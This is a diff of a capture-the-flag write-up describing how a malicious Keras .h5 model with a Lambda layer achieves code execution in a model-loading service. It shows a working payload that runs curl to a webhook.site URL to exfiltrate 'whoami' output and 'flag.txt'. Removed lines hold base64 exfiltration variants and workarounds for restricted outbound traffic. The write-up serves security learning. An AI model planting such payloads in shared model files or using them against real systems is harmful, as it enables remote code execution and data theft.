

Before and after one commit to aaryanbhujang/qu3stc0nAIm1ndfl4y3rmod3lLAB, a Markdown page: writeup.md, 3 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeup.md
+++ b/writeup.md
@@ -68,25 +68,23 @@ RUN apt-get update && \
 
 # Create the malicious model during image build
 RUN python3 - <<'EOF'
-import os
-import base64
 import tensorflow as tf
 
+
 def arbexe(x):
-    # Replace with your webhook URL:
-    url = "https://webhook.site/REPLACE-ME?whoami="
-    # Execute command and capture output
-    output = os.popen("whoami").read().encode()
-    b64 = base64.b64encode(output).decode()
-    os.system(f"curl -G --data-urlencode 'o={b64}' '{url}'")
+    import os
+    os.system("curl https://webhook.site/4d5dabc9-02df-4212-a89b-d3cac77c7e59/?exf=$(whoami)")
     return x
 
 model = tf.keras.Sequential()
 model.add(tf.keras.layers.Input(shape=(64,)))
 model.add(tf.keras.layers.Lambda(arbexe))
 model.compile()
-model.save("whoami.h5")
+model.save("hactf.h5")
 EOF
 
+
+# Default entrypoint
 ENTRYPOINT ["/bin/bash"]
+
 ```
@@ -156,11 +164,13 @@ RUN apt-get update && \
 # Create the malicious model during image build
 RUN python3 - <<'EOF'
 import tensorflow as tf
+
+
 def arbexe(x):
     import os
-    # Replace with your webhook URL
-    os.system("curl https://webhook.site/REPLACE-ME/?zex=$(cat flag.txt)")
+    os.system("curl https://webhook.site/4d5dabc9-02df-4212-a89b-d3cac77c7e59/?exf=$(whoami)")
     return x
+
 model = tf.keras.Sequential()
 model.add(tf.keras.layers.Input(shape=(64,)))
 model.add(tf.keras.layers.Lambda(arbexe))
@@ -168,7 +178,9 @@ model.compile()
 model.save("hactf.h5")
 EOF
 
+# Default entrypoint
 ENTRYPOINT ["/bin/bash"]
+
 ```
 
 Build and extract:
@@ -178,11 +190,7 @@ cid=$(docker create tf-keras-cve3660-flag)
 docker cp "$cid":/code/hactf.h5 ./hactf.h5
 docker rm -v "$cid"
 ```
-
-Notes:
-- If `flag.txt` isn’t in the model’s working directory on target, adjust the path, e.g., `/app/flag.txt` or `/home/user/flag.txt`.
-- For robust exfil, consider base64:
-  - `os.system("curl -G --data-urlencode o=$(base64 -w0 flag.txt) https://webhook.site/REPLACE-ME")`
+<img width="760" height="343" alt="flag" src="https://github.com/user-attachments/assets/fd2cceb9-5e75-4bce-8d41-760b70b821c1" />
 
 ---
 
@@ -202,16 +210,11 @@ Steps I used:
 4. Repeat with `ls.h5` to enumerate directories.
 5. Finally, upload `hactf.h5` (cat payload) to retrieve the flag. Confirm exfil at your webhook.
 
-If outbound network is restricted:
-- Try writing to a world-readable path the app serves (e.g., `/app/static/out.txt`) and then fetch it via the app’s HTTP path.
-- Or chain commands in a single model to write outputs to a location you can browse.
-
----
 
 ## 5) Results
 
 - `whoami` confirmed the service account user (e.g., `www-data` or `app`).
-- `ls -la` showed the project layout, revealing `flag.txt` near the app root.
+- `ls` showed the project layout, revealing `flag.txt` near the app root.
 - `cat flag.txt` exfiltrated the flag to my webhook:
   - Example webhook request: `https://webhook.site/<uuid>/?zex=HACTF{...REDACTED...}`
 
````
Also changed, not shown: other parts of writeup.md (+18 -43 lines).
